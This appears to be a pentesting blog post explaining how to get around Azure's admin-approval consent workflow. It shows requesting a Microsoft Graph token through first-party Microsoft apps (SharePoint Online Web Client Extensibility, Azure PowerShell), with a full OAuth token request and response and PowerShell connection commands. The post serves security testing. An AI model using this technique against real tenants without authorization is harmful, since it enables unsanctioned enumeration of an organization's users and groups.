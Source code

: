 ```yaml
---

layout: post
title: Bypass Azure Admin Approval Mode for User Consent Workflow When Enumerating
lang: en
lang-ref: bypass-azure-admin-approval-mode-enumeration
categories: [Windows security, Azure, Microsoft]
tags: [windows, cybersecurity, azure, microsoft, red team, pentesting]

---
```


# Bypass Azure Admin Approval Mode for User Consent Workflow When Enumerating

In this short blog post we will see a trick/technique to enumerate an Azure environment when the User App Consent Workflow is blocked and it is necessary to request permission to an administrator. After the administrator approves the consent the user can user the application.

When this mode is set an we attempt to enumerate groups/users/anything else when Microsoft Graph or similar we will get a prompt to request an administrator to approve our use of the application. 

With this technique we leverage Microsoft well-known apps that has some permissions by default. Because they already has some permissions granted we can take advantage of them to get a token with the scopes we want, for example, *Group.Read.All* [https://learn.microsoft.com/en-us/graph/permissions-reference#groupreadall](https://learn.microsoft.com/en-us/graph/permissions-reference#groupreadall).

## The Idea

During an Azure pentest, it's likely that the tenant has administrator approval mode enabled for external application permissions, hindering enumeration tasks—for example, through Microsoft Graph.

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203825.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203825.png){:target="_blank"}

When you try to enumerate groups, users, and other elements with Microsoft Graph, you'll find that it's not possible when using Microsoft's default application.

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203833.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203833.png){:target="_blank"}

## Abusing well-known Microsoft Apps with permissions already granted

However, it's possible to leverage other default Microsoft applications, such as **SharePoint Online Web Client Extensibility** (08e18876-6177-487e-b8b5-cf950c1e598c), since it has certain permissions granted by default. It has the default permissions that can be seen in the following image. I think that there are other applications available, but I have been using **SharePoint Online Web Client Extensibility**. 

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204007.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204007.png){:target="_blank"}

Take a look at your tenant and you will find this application owned by Microsoft and with the permissions shown granted.

We can then issue a token using this application and request, for example, *https://graph.microsoft.com/.default* scope.

Here is an example request and response.

```
POST /[REDACTED]/oauth2/v2.0/token HTTP/2
Host: login.microsoftonline.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 1544
Referer: [REDACTED]
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers

client_id=08e18876-6177-487e-b8b5-cf950c1e598c&scope=https://graph.microsoft.com/.default&grant_type=refresh_token&client_info=1&x-client-SKU=msal.js.browser&x-client-VER=3.23.0&x-ms-lib-capability=retry-after, h429&x-client-current-telemetry=5|61,0,,,|,&x-client-last-telemetry=5|1|61,[REDACTED]|post_request_failed|1,0&client-request-id=[REDACTED]&refresh_token=[REDACTED]


HTTP/2 200 OK
Cache-Control: no-store, no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Access-Control-Allow-Origin: *
Access-Control-Expose-Headers: Content-Length,Content-Encoding,x-ms-request-id,x-ms-srs
Access-Control-Allow-Methods: POST, OPTIONS
P3p: CP="DSP CUR OTPi IND OTRi ONL FIN"
X-Ms-Request-Id: [REDACTED]
X-Ms-Ests-Server: 2.1.19005.9 - NEULR1 ProdSlices
X-Ms-Clitelem: 1,0,0,112993681.7929,
X-Ms-Srs: 1.P
Referrer-Policy: strict-origin-when-cross-origin
X-Xss-Protection: 0
Set-Cookie: [REDACTED]
Set-Cookie: [REDACTED]
Set-Cookie: [REDACTED]
Date: Thu, 10 Oct 2024 15:37:52 GMT
Content-Length: 6583

{"token_type":"Bearer","scope":"email openid profile https://graph.microsoft.com/AppCatalog.Read.All https://graph.microsoft.com/AppCatalog.Submit https://graph.microsoft.com/Calendars.Read https://graph.microsoft.com/Channel.ReadBasic.All https://graph.microsoft.com/EduAssignments.ReadBasic https://graph.microsoft.com/EduRoster.ReadBasic https://graph.microsoft.com/Files.Read https://graph.microsoft.com/Files.Read.All https://graph.microsoft.com/Group.Read.All https://graph.microsoft.com/Group-Conversation.ReadWrite.All https://graph.microsoft.com/GroupMember.Read.All https://graph.microsoft.com/InformationProtectionPolicy.Read https://graph.microsoft.com/People.Read https://graph.microsoft.com/People.Read.All https://graph.microsoft.com/Presence.Read.All https://graph.microsoft.com/Tasks.ReadWrite https://graph.microsoft.com/Team.ReadBasic.All https://graph.microsoft.com/TeamsAppInstallation.ReadWriteForTeam https://graph.microsoft.com/TeamsAppInstallation.ReadWriteSelfForTeam https://graph.microsoft.com/User.Read https://graph.microsoft.com/User.ReadBasic.All https://graph.microsoft.com/.default","expires_in":5149,"ext_expires_in":5149,"access_token":"ey[REDACTED]","refresh_token":"[REDACTED]","refresh_token_expires_in":319000,"id_token":"[REDACTED]","client_info":"ey[REDACTED]"}
```

With the received token we can then connect to *Microsoft Graph* and take advantage of that permissions.

```
PS C:\> $access_token = "ey..."
PS C:\> $secure_access_token = ConvertTo-SecureString $access_token -AsPlainText -Force
PS C:\> Connect-MgGrapth -AccessToken $secure_access_token
PS C:\> Get-MgContext | select -ExpandProperty Scopes
[...]
```

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204249.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204249.png){:target="_blank"}

## Using Azure PowerShell

Another possibility, thanks to Bene ([https://x.com/m0lto_bene](https://x.com/m0lto_bene)), who pointed this out on Twitter: [https://x.com/PedroGabaldon/status/1844817792891039907](https://x.com/PedroGabaldon/status/1844817792891039907), is using **Azure PowerShell** [1950a258-227b-4e31-a9cf-717495945fc2](https://learn.microsoft.com/en-us/troubleshoot/entra/entra-id/governance/verify-first-party-apps-sign-in#application-ids-of-commonly-used-microsoft-applications).

Using this application you can also obtain a Microsoft Graph token. Although, the scope is lesser than when using **SharePoint Online Web Client Extensibility**.

To connect to Microsoft Graph with using a token issued using **Azure PowerShell** just run `Connect-AzAccount; Connect-MgGraph -AccessToken (Get-AzAccessToken -ResourceTypeName MSGraph -AsSecureString).Token`. 

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/GbJq5naWAAUxs2i.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/GbJq5naWAAUxs2i.png){:target="_blank"}

The available scope is shown in the figure below.

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/2024-11-16 19_49_54-Window.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/2024-11-16 19_49_54-Window.png){:target="_blank"}


And in this way, we can now continue with the enumeration tasks 😜.
